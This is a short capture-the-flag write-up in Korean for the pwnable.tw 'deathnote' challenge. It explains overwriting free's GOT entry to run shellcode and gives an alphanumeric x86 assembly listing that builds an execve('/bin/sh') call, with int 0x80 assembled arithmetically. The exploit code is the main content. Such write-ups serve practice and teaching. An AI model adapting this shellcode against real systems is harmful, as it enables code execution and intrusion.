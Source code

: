 # pwnable.tw_deathnote
#alpha_numeric shellcode  
free의 got 값을 바꾸어 free가 실행될 때, 쉘코드가 실행되게 한다.  
이때, 인자로 /bin/sh의 문자열을 넣어주어 /bin/sh는 해결해준다  
이제 80바이트로 쉘코드를 만들어주어야 한다.  

eax: 0xb   
ebx: /bin/sh의 주소가 들어간다  
edx와 ecx에는 널바이트  
int 0x80 호출  

가장 큰 문제는 int 0x80이다. => 직접 만들어주기는 힘들기 때문에 연산과정을 거쳐 만들어준다.  
0x80cd=32973=9\*99\*37+6  

push eax  
pop ecx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
xor [ecx+0x78],ebx  
imul edx, [ecx+0x78], 99  
xor [ecx+0x78],ebx  
xor [ecx+0x78],edx  
imul ebx, [ecx+0x78], 37  
xor [ecx+0x78],edx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
xor [ecx+0x78],ebx  
push eax  
pop ebx  
imul edx,[eax+0x70],32  
imul ecx,[eax+0x70],32  
imul eax,[eax+0x70],32  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax   

jmp to int 0x80

